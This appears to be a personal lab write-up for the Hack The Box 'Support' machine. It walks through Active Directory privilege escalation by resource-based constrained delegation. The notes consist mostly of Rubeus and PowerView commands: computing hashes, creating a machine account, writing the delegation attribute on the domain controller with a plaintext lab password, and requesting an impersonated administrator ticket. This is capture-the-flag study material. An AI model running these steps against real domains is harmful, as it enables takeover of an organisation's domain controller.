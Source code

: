 ```
./Rubeus.exe hash /password:Summer2018!
```

![[Pasted image 20241101115100.png]]

![[Pasted image 20241101115037.png]]


```
./Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```


![[Pasted image 20241101145642.png]]


![[Pasted image 20241101145624.png]]

I tried and tried and could not get this to work so I'm going to look through HTB lesson on RBCD...

# Priv Esc using Hack The Box method

```powershell-session

Import-Module .\PowerView.ps1

New-MachineAccount -MachineAccount HACKTHEBOX -Password $(ConvertTo-SecureString "Hackthebox123+!" -AsPlainText -Force)

$ComputerSid = Get-DomainComputer HACKTHEBOX -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

$credentials = New-Object System.Management.Automation.PSCredential "SUPPORT.HTB\support", (ConvertTo-SecureString "Ironside47pleasure40Watchful" -AsPlainText -Force)

Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $credentials -Verbose
```

![[Pasted image 20241101154305.png]]

```powershell-session
.\Rubeus.exe hash /password:Hackthebox123+! /user:HACKTHEBOX$ /domain:support.htb
```

![[Pasted image 20241101154359.png]]
